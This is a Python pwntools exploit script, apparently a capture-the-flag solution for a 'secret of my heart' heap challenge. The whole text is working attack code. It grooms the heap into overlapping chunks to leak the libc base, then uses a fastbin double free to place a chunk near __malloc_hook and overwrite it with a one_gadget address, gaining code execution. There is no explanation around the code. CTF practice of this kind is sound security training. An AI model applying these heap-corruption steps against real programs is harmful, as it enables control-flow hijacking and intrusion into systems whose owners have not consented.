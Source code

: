     def add(size,name,content):
    	io.recvuntil(':')
    	io.sendline('1')
    	io.recvuntil('Size of heart :')
    	io.sendline(str(size))
    	io.recvuntil('Name of heart :')
    	io.sendline(name)
    	io.recvuntil('secret of my heart :')
    	io.sendline(content)
    def delete(idx):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('Index :')
    	io.sendline(str(idx))
    def show(idx):
    	io.recvuntil(':')
    	io.sendline('2')
    	io.recvuntil('Index :')
    	io.sendline(str(idx))
    
    add(0x88,'a','A'*0x80)#0
    add(0x100,'b','B'*0x100)#1
    add(0x80,'c','C'*0x80)#2
    add(0x60,'d','D'*0x60)#3
    delete(1)
    delete(0)
    add(0x88,'a','A'*0x88)#0
    add(0x80,'e','E'*0x80)#1
    add(0x60,'f','F'*0x60)#4
    delete(1)
    delete(2)
    add(0x80,'b','B'*0x80)#1
    show(4)
    ''''''
    io.recvuntil('Secret : ')
    leak = u64(io.recvline()[:6].ljust(8,'\x00'))
    libc_base = leak - 88 - 0x10 - libc.symbols['__malloc_hook']
    
    log.success('libc_base :'+hex(libc_base))
    one = 0xe9415 + libc_base
    mlh = libc_base + libc.symbols['__malloc_hook']
    log.success('one :'+hex(one))
    log.success('mlh :'+hex(mlh))
    
    add(0x60,'h','H'*0x5f)#2 == 4
    add(0x60,'g','G'*0x5f)#5
    delete(4)
    delete(3)
    delete(2)
    add(0x60,'h',p64(mlh - 0x23) + 'AAAA')#2
    add(0x60,'z','z')#3
    add(0x60,'y','y')#4
    add(0x60,'x','x'*3 + p64(one))
    gdb.attach(io)
    raw_input()
    delete(4)
    delete(2)
    